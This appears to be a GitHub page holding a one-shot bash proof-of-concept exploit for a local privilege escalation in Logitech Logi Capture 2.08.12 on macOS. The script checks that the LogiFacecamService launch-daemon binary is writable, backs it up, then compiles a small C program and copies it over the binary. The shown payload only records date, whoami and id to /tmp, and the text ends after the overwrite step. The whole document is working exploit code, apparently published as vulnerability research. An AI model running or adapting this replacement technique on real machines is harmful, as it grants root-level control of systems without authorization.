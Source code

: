 
## One-shot exploit PoC 

```bash
########################################################################################################################
#!/bin/bash
########################################################################################################################
/bin/echo "[i] Title:  Logitech Logi Capture 2.08.12 macOS Local Privilege Escalation (LogiFacecamService)"
/bin/echo "[i] Author: emkay128"
/bin/echo "[i] File:   LogiFacecamService_pwn.sh"
########################################################################################################################
VULN_FILE=LogiFacecamService
DEMO_NAME=${VULN_FILE}_LPE
PATH="/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/"
PLIST=/Library/LaunchDaemons/com.Logitech.LogiFacecam.Service.plist
LPE_OUTFILE="/tmp/${VULN_FILE}.pwn"
########################################################################################################################
# STAGE 1 [EXPLOIT] #######################################################################################################
/bin/echo "[i] Checking if $PLIST exists"
if [ ! -f $PLIST ]; 
then
    /bin/echo "[FAIL] $PLIST doesn't exist :("
    exit   
fi

echo "[i] Viewing permissions for LogiFacecamService"
/bin/ls -@ -lah "$PATH"

test -w "${PATH}${VULN_FILE}" || {
   /bin/echo "[FAIL] Cannot write to the vuln file ${PATH}${VULN_FILE} :("
   exit
}

/bin/echo "[i] Creating backup of LogiFacecamService"
/bin/cp "/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService" "/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService.bak" 

/bin/echo "[i] Creating $DEMO_NAME.c file"
/bin/cat << EOF > /tmp/$DEMO_NAME.c
#include <stdlib.h>
int main() {
    system("/bin/date > $LPE_OUTFILE");
    system("/usr/bin/whoami >> $LPE_OUTFILE");
    system("/usr/bin/id >> $LPE_OUTFILE");
    return 0;
}
EOF

/bin/echo "[i] Compiling $DEMO_NAME.c file"
/usr/bin/gcc /tmp/$DEMO_NAME.c -o /tmp/$DEMO_NAME

/bin/echo "[i] chmodding $DEMO_NAME"
/bin/chmod +x /tmp/$DEMO_NAME

/bin/echo "[i] Copying malicious Mach-O to launchd path"
/bin/cp /tmp/$DEMO_NAME "/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService"

```